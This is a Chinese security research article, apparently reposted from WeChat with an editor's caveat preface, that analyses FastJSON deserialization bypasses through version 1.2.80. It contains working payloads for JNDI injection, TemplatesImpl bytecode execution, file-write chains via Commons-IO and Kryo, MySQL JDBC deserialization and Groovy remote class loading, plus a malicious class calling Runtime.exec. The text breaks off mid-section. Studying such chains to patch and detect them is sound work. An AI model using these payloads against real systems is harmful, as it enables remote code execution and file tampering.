## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Dated2023-03-25; sections&lt;=1.2.24,1.2.25–45,&lt;=47,48–68,69–80,83 fix; chain-specific AutoType, SafeMode, JDK LocalVariableTable, dependencies and multi-parse state matter

代码与实验材料：Complete large code collection plus detailed flows; covers TemplatesImpl/JdbcRowSet/MyBatis,IO writes,MySQL,Groovy,AspectJ/OGNL read/write; explicitly reports failed OracleJDK8 MarshalOutputStream and buffer-limited writes; many critical steps screenshots

来源证据范围：Original WeChat, safe6Sec repo and credited research links; patch claims mainly screenshot rather than official immutable commits

- **事实待核（1）**：Impossible reversed version heading；依据：1.2.80&lt;=fastjson&lt;=1.2.69。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：Boundary prose ambiguous and requires source tag comparison；依据：1.2.76以下...1.2.76版本下没有cast versus1.2.76~80。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：Summary '1.2.24之下无限制' loses configured getter/JDK/network constraints; no current fix matrix。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **代码与转录边界（4）**：Escaped closing braces/caption debris; intentionally malformed parser inputs must not be auto-formatted as standard JSON。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# FastJSON(全系漏洞分析-截至2023-03-25)

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/muIUYxvGmxCuswVAknYTTg)

FastJSON(全系漏洞分析 - 截至 2023/03/25)
================================

前言
--

FastJSON 也不是什么新奇玩意了，之前都是看别的师傅的分析文章，也没有自己手动调试过，纸上学来终觉浅；这次决定自己手动调试一下，跟踪一下各个利用链以及原理；

全文一共 7407 个字，建议慢慢看；

截至到目前，FastJSON>=1.2.83 还未有新的漏洞，所以我的分析聚集在 1.2.80 及以下；

使用的 POC 来自：https://github.com/safe6Sec/ShiroAndFastJson

概述
--

FastJSON 可以使用 @type 属性将 JSON 字符串转化为指定的类，例如

```
{
    "@type":"com.zeanhike.User",
    "name":"zhangsan",
    "age":18
}


```

```
//在JSON字符串中已指定@type属性
JSON.parse(s1) //获得User类型的对象
JSON.parseObject(s1)  //获得JSONObject类型的对象
JSON.parseObject(s1,Object.class) //获得User类型的对象


```

当 JSON 字符串转换成对象时，如果 setter 方法满足如下条件，会调用 setter 方法为对象的属性赋值

*   方法名长度大于 4
    
*   非静态方法
    
*   返回值为 void 或者当前类
    
*   以 set 开头且第四个字母为大写
    
*   参数个数为 1 个
    

当不满足如上条件之一时，但是 getter 方法满足如下条件时，会调用 getter 方法

*   方法名长度大于 4
    
*   非静态方法
    
*   以 get 开头且第四个字母为大写
    
*   无参数传入
    
*   返回值类型继承自 Collection Map AtomicBoolean AtomicInteger AtomicLong
    
*   此属性没有 setter 方法
    

 image-20230317115819095

使用 ASM 动态生成一个专门的类为属性赋值



image-20230317120124488

Fastjson 还有以下功能点：

1.  如果目标类中私有变量没有 setter 方法，但是在反序列化时仍想给这个变量赋值，则需要使用`Feature.SupportNonPublicField`参数
    
2.  fastjson 在为类属性寻找 getter/setter 方法时，调用函数`com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#smartMatch()`方法，会忽略`_ -`字符串
    
3.  fastjson 在反序列化时，如果 Field 类型为 byte[]，将会调用`com.alibaba.fastjson.parser.JSONScanner#bytesValue`进行 base64 解码，在序列化时也会进行 base64 编码
    

fastjson<=1.2.24
----------------

```
com.sun.rowset.JdbcRowSetImpl
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl


```

### com.sun.rowset.JdbcRowSetImpl

payload：

```
{
 "@type": "com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName": "rmi://127.0.0.1:1097/Object",
 "autoCommit": true
}


```

先调用 setDataSourceName 为父类 BaseRowSet 的 dataSource 属性赋值



image-20230317162601375



image-20230317162806198

然后调用 setAutoCommit 为 autoCommit 赋值



image-20230317162907578

在赋值过程中，调用了 connect 方法



image-20230317163012929

在 connect 方法中获取 dataSourceName 属性的值，进行 lookup，造成 JNDI 注入



image-20230317163301064

### com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

payload：

```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQAJAoAAwAPBwARBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAR0ZXN0AQAMSW5uZXJDbGFzc2VzAQAiTGNvbS9oZWxsby9kZW1vL2pzb24vSkRLN3UyMSR0ZXN0OwEAClNvdXJjZUZpbGUBAAxKREs3dTIxLmphdmEMAAQABQcAEwEAIGNvbS9oZWxsby9kZW1vL2pzb24vSkRLN3UyMSR0ZXN0AQAQamF2YS9sYW5nL09iamVjdAEAG2NvbS9oZWxsby9kZW1vL2pzb24vSkRLN3UyMQEACDxjbGluaXQ+AQARamF2YS9sYW5nL1J1bnRpbWUHABUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7DAAXABgKABYAGQEABGNhbGMIABsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAdAB4KABYAHwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHACEKACIADwAhAAIAIgAAAAAAAgABAAQABQABAAYAAAAvAAEAAQAAAAUqtwAjsQAAAAIABwAAAAYAAQAAACoACAAAAAwAAQAAAAUACQAMAAAACAAUAAUAAQAGAAAAFgACAAAAAAAKuAAaEhy2ACBXsQAAAAAAAgANAAAAAgAOAAsAAAAKAAEAAgAQAAoACQ=="],'_name':'exp','_tfactory':{ },"_outputProperties":{ \}\}


```

会先为 TemplatesImpl 对象的属性进行赋值，由于这些属性都没有 setter 方法，但是开启了 Feature.SupportNonPublicField 特性，就可以成功赋值而不需要 setter 方法，由于`_outputProperties`这个属性有 getter 方法，且满足之前说的特性，所以当设置完所有属性的值后，会调用它的 getter 方法，也就是 getOutputProperties



image-20230319142716204

跟进 newTransformer()



image-20230319142840293

跟进 getTransletInstancew()



image-20230319143042245

`_name`不为空且`_class`为空，才会进入 defineTransletClasses()



image-20230319143243137

在 defineTransletClasses() 方法中，首先`_tfactory`属性不能为空，否则会造成空指针异常，同时在后面将二维数组`_bytecode`属性转化为 Class 对象，同时存入一维数组`_class`属性中，同时有一个细节就是我们构造的恶意类父类要为`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`，不然这个索引不会更新当前位置

然后回到 getTransletInstance() 方法



image-20230319143647787

这里根据`_class`属性以及当前索引获取当前 Class 对象，并拿到无参构造器进行实例化，可以将恶意代码放在无参构造函数或者静态代码块中，这样实例化时就会触发命令执行等操作从而 RCE

1.2.25<=fastjson<=1.2.41
------------------------

在 1.2.25 版本及以上，在 ParserConfig 中新增了黑白名单，同时存在一个 autoTypeSupport 属性用来设置是否支持反序列化，同时多了个 checkAutoType 方法用来检测非法操作；

在 DefaultJSONParser 中的 parseObject 方法中，调用了 ParserConfig 的 checkAutoType 进行校验并加载类



image-20230319151925906

在 ParserConfig 的 checkAutoType 方法中传入我们指定的类



image-20230319152329345

这里会判断 autoTypeSupport 属性的值，所以我们看看默认的 autoTypeSupport 属性的值

由于在 new 一个 ParserConfig 时，会设置 autoTypeSupport 属性还有 denyList(黑名单)、acceptList(白名单)



image-20230319152442045

而这里 autoTypeSupport 被赋值成 AUTO_SUPPORT



image-20230319153255966

而 AUTO_SUPPORT 在类实例化时，默认为 false

这里会到 checkAutoType 方法


image-20230319152329345



image-20230319160335887image-20230319165752685

传递的两个参数，第一个为反序列化的类，第二个为 null

然后进行如下操作：

1.  autoTypeSupport 为 false，从缓存中找是否有该类的 Class，找不到再从 Map 中找到该类的 ObjectDeserializer
    
2.  然后进行黑白名单匹配
    
3.  最后抛出 JSONException 异常，`autoType is not support.`~
    

若是 autoTypeSupport 属性为 true，进行如下操作：

1.  进行黑白名单匹配
    
2.  从缓存中找是否有该类的 Class，找不到再从 Map 中找到该类的 ObjectDeserializer
    
3.  然后调用`TypeUtils.loadClass(typeName, this.defaultClassLoader);`加载这个类
    

这里进入`TypeUtils.loadClass(typeName, this.defaultClassLoader)`中



image-20230319170432225

这里如果 className 是以`[`开头或者`L`开头`;`结尾，就会截取中间部分，去除这些符号

所以这里可以绕过黑白名单限制，当设置了 autoTypeSupport 属性为 true 时，我们可以往 @type 指定的类前面加`[`或者`L`开头`;`结尾进行黑白名单绕过

fastjson=1.2.42
---------------

1.2.42 版本将黑名单变成 hashcode



image-20230319171720271

而在 checkAutoType 中



image-20230319172133927

会对`L`开头`;`结尾的 className 先进行去除，然后在使用`TypeUtils.loadClass(typeName, this.defaultClassLoader)`加载类

这里双写 L 和; 即可绕过

fastjson=1.2.43
---------------

同样在 checkAutoType 中，判断前两个字符不能为 L，否则抛异常，可以使用`[`绕过



image-20230319181504277

payload 比较特别：

```
{
    "@type":"[com.sun.rowset.JdbcRowSetImpl"[,
    {"dataSourceName":"rmi://127.0.0.1:1097/Object",
    "autoCommit":true
}
@type后紧跟[代表数组，以{开头表示数组中的一个元素，多少个{表示数组有多少个元素，例如：
{
    "@type":"[com.sun.rowset.JdbcRowSetImpl"[,
    {"dataSourceName":"rmi://127.0.0.1:1097/Object",
    "autoCommit":true,{xxx,{xxx
}


```

1.2.44<=fastjson<=1.2.45
------------------------

在 1.2.44 中修改`[`符号产生的绕过

不过依然可以使用黑名单不存在的类进行绕过

```
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://127.0.0.1:23457/Command8"
    }
}


```

这个需要依赖 mybatis 框架

```
    <dependency>
      <groupId>org.mybatis</groupId>
      <artifactId>mybatis</artifactId>
      <version>3.5.11</version>
    </dependency>


```

fastjson<=1.2.47
----------------

可以在不开启 autoTypeSupport 且绕过黑白名单的情况下进行 RCE，在 checkAutoType 方法中，若没有开启 autoTypeSupport 则会走到这里



image-20230319184729891

从两个地方取，如果取的到就返回



image-20230319184756481

这里可以通过往 TypeUtils 的缓存中存入我们的类



image-20230319214933555

而在 TypeUtils 中的 loadClass 可以存入缓存，而在 MiscCodec 的 deserialze 中会调用 TypeUtils 中的 loadClass 进行类加载并存入缓存



image-20230319215048163

这里重点是 strVal，strVal 是我们存入的缓存类，然后往上翻



image-20230319215422887

strVal 来源于 objVal，objVal 来源于 parser.parse，同时这里有个细节就是 lexer.stringVal 解析到的 JSON 键必须为 val 不然会抛出错误，然后 parser.parse 就是拿到 JSON 的值，所以可以指定键为 val，值为 com.sun.rowset.JdbcRowSetImpl，这样就会将 com.sun.rowset.JdbcRowSetImpl 加入缓存中

所以什么时候会调用 MiscCodec 的 deserialze 方法呢？

在 DefaultJSONParser 的 parseObject 会调用



image-20230319221002297

这里根据 clazz 从 ParserConfig 中取 deserializer

ParserConfig 中有一个 deserializers 属性，专门用来存 deserializer



image-20230319221113817

在 ParserConfig 的 initDeserializers 会初始化这个属性，往里面存一些 Class 和对应的 deserializer



image-20230319221304293

这里会存入 MiscCodec，它对应 Class 类型


image-20230319221345590

所以回到 DefaultJSONParser 的 parseObject 中


image-20230319221002297

当 clazz 为 Class 时，会获取 Class 对应的 deserializer，也就是 MiscCodec，调用它的 deserialize 方法，这个 clazz 可以通过 @type 进行设定

最后的 payload 如下

```
{
    {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "rmi://127.0.0.1:1097/Object",
        "autoCommit": true
    }
}


```

这里传递的 JSON 字符串存在两个对象，第一个对象用来将指定类存入缓存中，第二个对象用来触发 JNDI 注入

1.2.48<=fastjson<=1.2.68
------------------------

在 MiscCodec 的 deserialze 中将 cache 设置成 false，不允许存入缓存



image-20230320094837158

但是也产生了新型绕过

在 ParserConfig 的 checkAutoType 中，利用 expectClass 绕过

这里看看



image-20230320141109164

首先 expectClass 不能为 null，且不能等于 Object、Serializable、Cloneable、Closeable、EventListener、Iterable、Collection，才会将 expectClassFlag 设置成 true



image-20230320141449066

其次，在未开启 autoTypeSupport 的情况下，会匹配黑白名单，所以不能跟黑名单里的类相同



image-20230320142010507

expectClassFlag 为 true 后，会根据 typeName 使用 TypeUtils 的 loadClass 去加载类，后面若 clazz 是 expectClass 的子类就放入 huan'c 返回


image-20230320142238559

也就是说这里 typeName 要为 expectClass 的子类，才能绕过 checkAutoType 的检测，同时绕过 autoTypeSupport 的限制

而只有两处地方，会调用 checkAutoType 且传递 expectClass 参数



image-20230320142810418

一个在 ThrowableDeserializer 的 deserialize 中



image-20230320143004616

另一个在 JavaBeanDeserializer 的 deserialize 中

先看 ThrowableDeserializer 的 deserialize，在 checkAutoType 调用完后并返回 class 后


image-20230320143151810

在下面会直接创建实例

而在 JavaBeanDeserializer 的 deserialize 中



image-20230320143357189

调用完 checkAutoType 得到 userType 后，会获取 userType 对应的 deserializer，然后调用 deserialize 方法，触发 userType 的反序列化，执行 setter 或 getter 方法



image-20230320144417368

网上公开的 poc：

这个使用了 JavaBeanDeserializer 那条链，但是我在 jdk8 下复现失败



image-20230320150920343

这是因为 fastjson 在通过带参构造函数进行反序列化时，会检查参数是否有参数名信息，只有含有参数名信息的带参构造函数才会被认可



img

而我用的 Windows 下，Oracle JDK8 的 MarshalOutputStream 类，不含有 LocalVariableTable

由于大部分 JDK/JRE 环境的类字节码里都不含有 LocalVariableTable，而很多第三方库里的字节码是有 LocalVariableTable 的。

浅蓝发的 1.2.68 利用第三方 gadget 写文件

```
{
    "stream": {
        "@type": "java.lang.AutoCloseable",
        "@type": "org.eclipse.core.internal.localstore.SafeFileOutputStream",
        "targetPath": "d:/test/pwn.txt",
        "tempPath": "d:/test/test.txt"
    },
    "writer": {
        "@type": "java.lang.AutoCloseable",
        "@type": "com.esotericsoftware.kryo.io.Output",
        "buffer": "YjF1M3I=",
        "outputStream": {
            "$ref": "$.stream"
        },
        "position": 5
    },
    "close": {
        "@type": "java.lang.AutoCloseable",
        "@type": "com.sleepycat.bind.serial.SerialOutput",
        "out": {
            "$ref": "$.writer"
        }
    }
}


```

依赖的 jar 包有点多

```
    <dependency>
      <groupId>org.aspectj</groupId>
      <artifactId>aspectjtools</artifactId>
      <version>1.9.5</version>
    </dependency>
    <dependency>
      <groupId>com.esotericsoftware</groupId>
      <artifactId>kryo</artifactId>
      <version>4.0.0</version>
    </dependency>
    <dependency>
      <groupId>com.sleepycat</groupId>
      <artifactId>je</artifactId>
      <version>5.0.73</version>
    </dependency>


```

这里有个细节，就是在一些属性下使用了，例如属性下，键 ref，值为 $.stream，代表为 outputStream 属性赋值为 stream 对象；

首先调用 SafeFileOutputStream 的带参构造函数，然后调用 Output 的无参构造函数，使用 setter 为属性赋值，最后调用 SerialOutput 的构造函数



image-20230320183429036

这里的 out 为 Output，进入 super 中



image-20230320183642290

包装 out 成 BlockDataOutputStream，然后调用 setBlockDataMode



image-20230320183725191

然后调用 drain



image-20230320183757318

进行数据写入



image-20230320183833865

继续传递



image-20230320183857315

写完数据调用 require 方法



image-20230320183945436

进入 this.flush()



image-20230320184050810

调用 SafeFileOutputStream 进行写，此时才是真正写到文件，写完调用 flush 关闭

MarshalOutputStream 进行文件读写跟这个调用链差不多

### 使用 commons-io 库

这也是使用了 JavaBeanDeserializer 那条链

```
{
  "@type":"java.lang.AutoCloseable",
  "@type":"org.apache.commons.io.input.XmlStreamReader",
  "is":{
    "@type":"org.apache.commons.io.input.TeeInputStream",
    "input":{
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aaaaaa"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer": {
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file": "/tmp/pwned",
        "encoding": "UTF-8",
        "append": false
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "closeBranch":true
  },
  "httpContentType":"text/xml",
  "lenient":false,
  "defaultEncoding":"UTF-8"
}


```

层层包装，使用 TeeInputStream 作为连接输入流和输出流的桥梁

大致过程就是：

1.  XmlStreamReader 的构造函数触发 read，然后用 TeeInputStream 进行 read，TeeInputStream 又用 ReaderInputStream 进行 read，ReaderInputStream 又用 CharSequenceReader 从字符序列中进行 read
    
2.  在 TeeInputStream 中的 read 方法中，read 完之后会调用 write 进行写入，也就是调用 WriterOutputStream 进行 write，WriterOutputStream 又用 FileWriterWithEncoding 进行 write
    

流程图如下：



image-20230321103534302



image-20230321103606777


image-20230321103626730


image-20230321103738928

循环读取


image-20230321103835207


image-20230321103900619


image-20230321103953821


image-20230321104033736


image-20230321104209689

从字节序列中取，然后返回

返回到 TeeInputStream 的 read 方法中，然后进行 write


image-20230321103835207


image-20230321104535884


image-20230321104600491


image-20230321104613329


image-20230321104909502

然后进行文件写入

这里面有两个个细节：

1.  `"charSequence":{"@type":"java.lang.String""aaaaaa"}`对于这种畸形 JSON，仍然能解析
    
2.  执行该 POC 后虽然文件能创建但是无法写入
    

因为我懒，直接贴原作者的图进行解释

原文链接 [Fastjson 1.2.68 反序列化漏洞 Commons IO 2.x 写文件利用链挖掘分析](https://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247486627&idx=1&sn=b768bebbd40c7d5b39071c711d9a19aa&scene=21#wechat_redirect)（以下部分为引用）

* * *

当要写入的字符串长度不够时，输出的内容会被保留在 ByteBuffer 中，不会被实际输出到文件里

`sun.nio.cs.StreamEncoder#implWrite`


图片

问题搞清楚了，我们需要写入足够长的字符串才会让它刷新 buffer，写入字节到输出流对应的文件里。那么很自然地想到，在 charSequence 处构造超长字符串是不是就可以了？

可惜并非如此，原因是 InputStream buffer 的长度大小在这里已经是固定的 4096 了：


图片

也就是说每次读取或者写入的字节数最多也就是 4096，但 Writer buffer 大小默认是 8192：


图片

因此仅仅一次写入在没有手动执行 flush 的情况下是无法触发实际的字节写入的。

* * *

可以使用 $ref 引用同一个对象进行循环写入

```
{
  "x":{
    "@type":"com.alibaba.fastjson.JSONObject",
    "input":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"org.apache.commons.io.input.CharSequenceReader",
        "charSequence":{"@type":"java.lang.String""aaaaaa...(长度要大于8192，实际写入前8192个字符)"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "branch":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.output.WriterOutputStream",
      "writer":{
        "@type":"org.apache.commons.io.output.FileWriterWithEncoding",
        "file":"D:/tmp/pwned",
        "encoding":"UTF-8",
        "append": false
      },
      "charsetName":"UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "trigger":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger2":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger3":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    }
  }
}


```

XmlStreamReader 在构造器方法会触发 doRawStream() 方法，在 doRawStream() 方法中触发 getBOMCharsetName()，在 getBOMCharsetName() 中触发 getBOM()，getBOM() 触发 TeeInputStream 的 read() 方法，此时 TeeInputStream 为同一个对象（因为引用了上一个对象），就可以达循环读写。

该思路引导了很多人使用该库进行其他方式的利用

```
{
 "@type":"java.lang.AutoCloseable",
 "@type":"org.apache.commons.io.input.BOMInputStream",
 "delegate":{
   "@type":"org.apache.commons.io.input.TeeInputStream",
  "input":{
   "@type": "org.apache.commons.codec.binary.Base64InputStream",
   "in":{
    "@type":"org.apache.commons.io.input.CharSequenceInputStream",
    "charset":"utf-8",
    "bufferSize": 1024,
    "s":{"@type":"java.lang.String""input your content"
    },
    "doEncode":false,
    "lineLength":1024,
    "lineSeparator":"5ZWKCg==",
    "decodingPolicy":0
   },
  "branch":{
   "@type":"org.eclipse.core.internal.localstore.SafeFileOutputStream",
   "targetPath":"./1.txt"
  },
  "closeBranch":true
 },
 "include":true,
 "boms":[{
  "@type": "org.apache.commons.io.ByteOrderMark",
  "charsetName": "UTF-8",
  "bytes":"input your bytes"             
    }],
 "x":{
        "$ref":"$.bom"
    }
}


```

这个很巧妙使用了，.bom` 获取根对象的 bom 属性，根对象为 BOMInputStream

这可以循环调用，例如：

```
获取班级下的学生的姓名
new Classes().getStudent().getName()
假设根对象为班级，对应JSONPath为
$.student.name


```

JSONPath 会进行分段，段有很多类型


image-20230321122125728

这里对应的是属性段 PropertySegment，将 $.student.name 分成两个 PropertySegment 对象，一个是代表 student 属性的 PropertySegment 对象，第二个是代表 name 属性的 PropertySegment 对象；然后会遍历每个段调用 eval 方法


  
image-20230321122553033

获取属性值，会调用该属性的 getter 方法

所以 $.bom 会调用 getBOM() 方法触发利用链进行读取

还有使用 Mysql 进行 SSRF 和反序列化漏洞攻击的

### 使用 mysql-connector-java 库

SSRF 没太大用，这里不说，利用反序列化漏洞可以 RCE，但是需要依赖对应 java 应用程序需要有相关的链

#### Mysql JDBC 反序列化攻击

当我们控制了连接数据库的字符串时，我们可以伪造一个数据库，将需要反序列化的恶意对象存储在 BLOB 类型的字段中，当客户端获取该 BLOB 类型的数据时会自动反序列化造成 RCE

github 上有 fake mysql server 配合该 poc 进行 RCE

```
//<=1.2.68 and mysql 8.0.19可反序列化 >8.0.19可SSRF
{
 "@type": "java.lang.AutoCloseable",
 "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
 "proxy": {
  "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
  "connectionUrl": {
   "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
   "masters": [{
    "host": ""
   }],
   "slaves": [],
   "properties": {
    "host": "127.0.0.1",
    "user": "yso_CommonsCollections4_calc",
    "dbname": "dbname",
    "password": "pass",
    "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true"
   }
  }
 }
}


```

类似的还有 PostgreSQL JDBC RCE

### SafeMode

在 1.2.68 存在 safemode

image-20230321160314550

默认为关闭，只要开启会直接抛出异常，不解析 @type 指定的 JSON 字符串

1.2.80<=fastjson<=1.2.69
------------------------

在 1.2.69 中

在 ParserConfig 的 checkAutoType 中，若 expectClass 为 AutoCloseable，则设置 expectClassFlag 为 false，导致 AutoCloseable 为首的利用链都无法使用

image-20230321171426139

加的这三个 expectHash 为 java.lang.Runnable、java.lang.Readable 和 java.lang.AutoCloseable


image-20230320144417368

虽然 JavaBeanDeserializer 这条路走不通，但是仍然可以走 ThrowableDeserializer 这条路

### 使用 groovy 库

这个适用于 1.2.76~1.2.80，为啥 1.2.76 以下不适用呢？后面会说

网上的 payload 是：

```
//两次parse
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
        "classpathList":"http://127.0.0.1:8080/"
    }
}


```

之前说过为 Exception 的子类可以绕过 checkAutoType()，然后调用 createException() 创建实例

ThrowableDeserializer.deserialize()

image-20230322111828506

绕过 checkAutoType()，并设置 exClass 为 CompilationFailedException

但是重点在 CompilationFailedException 的 unit 属性中，在第二次扫描符号时，扫描到 unit 属性

image-20230322111948411

然后将 key 和 parser.parser() 放进 otherValues，key 为 unit，parser.parse() 解析 JSON 字符串的 unit 属性的值，指定为空，所以这里为空

image-20230322112649395

但是由于 CompilationFailedException 的构造函数不符合条件，所以无法创建实例，ex 为 null，只能创建 Exception() 实例并赋值给 ex


image-20230322112503788

otherValues 不为 null，获取 unit 属性的 deserializer，判断 unit 的 Class 不是 value 的实例的话，调用 TypeUtils.cast() 方法，然后传递 unit 属性的类型，unit 属性为 ProcessingUnit 类


image-20230322113511151

cast 又调用 cast，套娃

image-20230322113721056

cast 方法里又调用 castToJavaBean

image-20230322113918222

在 castToJavaBean 方法里，调用 getDeserializer 获取 ProcessingUnit 类的 deserializer


image-20230322115224174

然后调用 getDeserializer 的重载，套娃


image-20230322115330816

然后在 getDeserializer 方法的重载里，创建了 ProcessingUnit 类型的 deserializer，然后调用 putDeserializer


image-20230322115629571

在 putDeserializer 方法里，将 ProcessingUnit 类型的 deserializer 放进了 ParserConfig 的 deserializers 属性中，这是后面绕过 checkAutoType() 的关键


image-20230322115824231

然后一路返回 deserializer


image-20230322114023809

不符合条件创建实例失败，返回 null

image-20230322114548055

然后 setValue

第一次 POC 触发，将 ProcessingUnit 类型的 deserializer 放进了 ParserConfig 的 deserializers 中

在第二次 POC 触发中，


image-20230322120442836

检测 @type 属性的类时，调用 checkAutoType 方法


image-20230322120548182

由于已将 ProcessingUnit 类的 deserializer 放进了缓存中，所以这里可以找到 clazz，绕过了 checkAutoType 的限制

同时第二次使用了 JavaBeanDeserializer 那条链，在对 JavaStubCompilationUnit 进行 checkAutoType 时，因为传入了 expectClass，所以过了 checkAutoType 的检测


image-20230322121845124

后面创建 JavaStubCompilationUnit 类的 deserializer，然后它的调用 deserialze 方法，后面反射调用 JavaStubCompilationUnit 类的构造器创建实例


image-20230322122721627


image-20230322122734434


image-20230322122751696image-20230322122812217image-20230322122827383image-20230322122838953

将 JSON 字符串中 classpathList 属性的值（`http://127.0.0.1:8080/`）添加到 classpath

继承关系：

image-20230322123120735

在 CompilationUnit 的构造函数中 super 调用完后，会调用 ASTTransformationVisitor.addPhaseOperations(this)


image-20230322123233874

然后调用 addGlobalTransforms


image-20230322123348521

然后调用 doAddGlobalTransforms


image-20230322123435827

获取 META-INF/services/org.codehaus.groovy.transform.ASTTransformation 文件中的内容，META-INF/services/org.codehaus.groovy.transform.ASTTransformation 该文件的内容就是我们要执行的恶意类的类名


image-20230322123526645


image-20230322123654395

然后调用 addPhaseOperationsForGlobalTransforms()，transformNames 中存储了我们的恶意类


image-20230322123748383

在 addPhaseOperationsForGlobalTransforms 方法中，进行加载类，并实例化我们的恶意类，这个恶意类要为 ASTTransformation 的子类


image-20230322123918890

我的恶意类：

```
package org.example.groovy;

import org.codehaus.groovy.ast.ASTNode;
import org.codehaus.groovy.control.CompilePhase;
import org.codehaus.groovy.control.SourceUnit;
import org.codehaus.groovy.transform.ASTTransformation;
import org.codehaus.groovy.transform.GroovyASTTransformation;

import java.io.IOException;

@GroovyASTTransformation(phase= CompilePhase.CONVERSION)
public class AK implements ASTTransformation {


    public AK() {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void visit(ASTNode[] astNodes, SourceUnit sourceUnit) {

    }
}


```

#### 总结

第一次使用 ThrowableDeserializer 那条链，将 Exception 作为 expectClass 绕过 checkAutoType，成功加载 CompilationFailedException，然后在获取属性 unit（ProcessingUnit 类）的 deserializer 放入缓存

第二次使用 JavaBeanDeserializer 那条链，由于 ProcessingUnit 的 deserializer 已放入缓存，所以绕过了 checkAutoType，然后调用 JavaStubCompilationUnit 的构造函数触发后续操作

而最最关键的 TypeUtils.cast(value, fieldInfo.fieldType, parser.getConfig()) 方法是用来将 deserializer 放入缓存的，没有它就不会有第二步操作

而一开始说的为啥 1.2.76 以下不适用呢？因为在 1.2.76 版本下没有 cast 调用

这是 1.2.76 版本下的：


image-20230322124759296

对比 1.2.76~80：


image-20230322124927846

### 文件读取

#### 使用 aspectJ 库

利用 aspectJ 进行文件读取，一种是错误回显，另一种是 dnslog（不成功）

虽然只依赖一个库，但是会由于各种限制，并不会直接将错误结果返回到前台

所以这个略过

#### 使用 aspectjtools 库、ognl 库以及 commons-io 库

依赖三个 jar 包

```
    <dependency>
      <groupId>org.aspectj</groupId>
      <artifactId>aspectjtools</artifactId>
      <version>1.9.5</version>
    </dependency>
    <dependency>
      <groupId>ognl</groupId>
